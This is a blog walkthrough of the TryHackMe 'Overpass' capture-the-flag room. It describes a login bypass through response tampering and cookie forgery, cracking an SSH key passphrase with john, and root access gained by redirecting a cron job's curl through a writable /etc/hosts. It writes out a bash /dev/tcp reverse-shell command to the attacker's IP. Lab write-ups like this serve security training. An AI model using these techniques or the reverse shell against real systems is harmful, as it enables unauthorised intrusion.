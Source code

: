 ```yaml
---
layout: post
published: true
title: "TryHackMe - Overpass | Walkthrough"
date: 2020-07-24 14:32:20 +0300
description: Overpass room of Tryhackme | Writeups.
excerpt: "Walkthrough of Overpass room - Tryhackme"
image: "https://jaiguptanick.github.io/Blog/images/overpass/overpass.png"
sitemap:
    priority: 0.8
    lastmod: 2020-07-24
    changefreq: monthly
---
```


<style>
/* This stylesheet sets the width of all images to 100%: */
img {
  width: 90%;
}
</style>

<h2 align="center" >Overpass - Tryhackme Walkthrough </h2>
---
Here is a walkthrough of the [TryHackMe](https://tryhackme.com/) room “Overpass.” If you haven’t already completed the challenge, you can do so [here](https://tryhackme.com/room/overpass).

>Hello, today we are going to solve an exciting room Overpass, which is quite different for me than other challenges. It is worth solving this room as it contains some essential Owasp Top 10 vulnerability, i.e Broken Authentication. Also, using some automated Privilege Escalation scripts like linpeas.sh makes it more interesting.

## Enumeration
---

<h3>Nmap</h3>

![Overpass Walkthrough nmap]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nmap.png)

As always starting with a nmap scan.Only two 22 with SSH and 80 with Http are open.Rest are filtered.Initially no clue on SSH so moving to Enumerate Http.

Simultaneously starting nikto scan till then but got nothing unusual.

![OverpassWalkthrough nikto]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nikto.png)

Moving to the main website:-

![Overpass writeup website]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/website.png)

This shows a normal webpage with some information about overpass password manager.There are only two pages linked with homepage which seems usual,so starting a directory scan.

<h3>Dirsearch Scan</h3>

![Overpass room dirscan]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/dirsearch.png)

Directory scanning showed many pages but /admin/ seems interesting.

<h3>Logging In via Broken Authentication</h3>

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/adminpage.png)

Now no clue on credentials, also brute-forcing is not the solution as mentioned in the hint.

Just enumerating the files associated with the source code shows us an exciting file named login.js containing the function used in the login form on the /admin page.

![Overpass_tryhackme_logincode]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logincode.png)

The function login() in the box is the vulnerable code that will let us bypass the login form. The variable creds take the credentials, and variable response sends them to /api/login for validation, and the statusOrCookie variable takes the response. Till here, everything seems perfect now in the Conditional statement; it checks if the response from the server is "Incorrect Credentials" then it will not allow access otherwise, it will set a cookie named "SessionToken" to statusOrCookie and redirect us to the admin panel. Here lies the vulnerability as a user can change the response of /api/login from "Incorrect Credentials" to anything else using BurpSuite and trick the server into running the else part of the code.<br>Lets see practically:-
<br>Intercepting request using burp:

![Overpass solution burpsuite]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/burp1.png)


Now, as we want to change the response, not the request so choosing Action > Do intercept > Response to the request.

![walkthrough_Overpass_burp]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/doresponse.png)

Forwarding the request to get the response:

![writeup Overpass response]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/response1.png)

We get the response as expected now change it to anything else or delete "Incorrect Credentials" and again forward the request.
Now refresh the page to get the access.<br>
Wow! we got access to the page without the credentials.

![Overpass solutions]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/loggedin.png)

<h3><b>BONUS</b></h3>

---
There is an alternate method to login as the login.js is creating a cookie in case of successfully logging in.
We can manually create the cookie on the login page named "SessionToken" and assign it any value as there is no code to validate our cookie.

![Overpass_tryhacme_cookies]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/cookie.png)

Refresh the page to successfully logging in.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logged_via_cookie.png)


Now Moving to page provides majorly 2 information:
``` 
1.There is a user name james.
2.The ssh key to login via SSH.
```
Saving the Key to a file and reduce its permission using ```chmod 400 james.key ``` and then connecting via SSH:

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/ssh_fail.png)

OHH!! It is asking for the passphrase for the provided key. As No passphrase is found.Now bruteforing is the only option.
using <b>ssh2john.py</b> to convert to hash that john can crack using rockyou.txt

![Overpass_walkthrough]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/johncrack.png)

It successfully found the passphrase that is <b>james13</b>. Now we can log in via SSH.

![ssh_Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/james_ssh_success.png)

Get the user flag and submit.

![Overpass_flag]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag1.png)


<h3>Privilege Escalation</h3>

This part is really interesting as none of the manual methods worked.
``` 
1.Can't run sudo -l as don't know james password.
2.SUID bit can be cheched by "find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null " but are also not intersting.
```
Using automated Tools like linpeas.sh initially not helped until I saw the room tag mentioned "cron".

![Overpass_root_curl]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/root_curl.png)

User root is connecting to a URL using curl, moving down to check more to results of linpeas shows writable access to file /etc/hosts which is usually only writable by root. 

![Overpass_etc_hosts]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/etc.png)

Since curl is used by root so if we somehow exploit it we can get the root access.The curl command from cronjob is using a "overpass.thm" as hostname and we have write access to the hosts file. Meaning we can replace the hostname to make the cronjob think that the hostname is from our IP Address which will let it connect to our given IP address.

Lets do this practically:

![Overpass_python_server]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/python_server.png)

```
1. We need to start a python server locally using "python3 -m http.server 80" choose port 80 as it is the default port.
2. Make the same directory as "/downloads/src/buildscript.sh" 
3. Finally a file named buildscript.sh with the reverse shell , i used it from pentestermonkey.net "bash -i >& /dev/tcp/10.9.19.190/1234 0>&1"
4.Now start a netcat listener locally to which the Box will connect.
5. At last replace the IP of the /etc/hosts of overpass.thm to our own connecting IP.
6. All done now wait a few seconds till it connects back to us via nc listener due to cronjob assigned.
```

![Overpass_flag2]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag2.png)

Finally, We got a connection from the Box as ROOT. It was really a nice room containing many fundamentals, an I enjoyed soving it and writing its walkthrough.





<br>
<br>

<i>Thanks for your patience,I hope you enjoyed reading. Happy Hacking... </i>
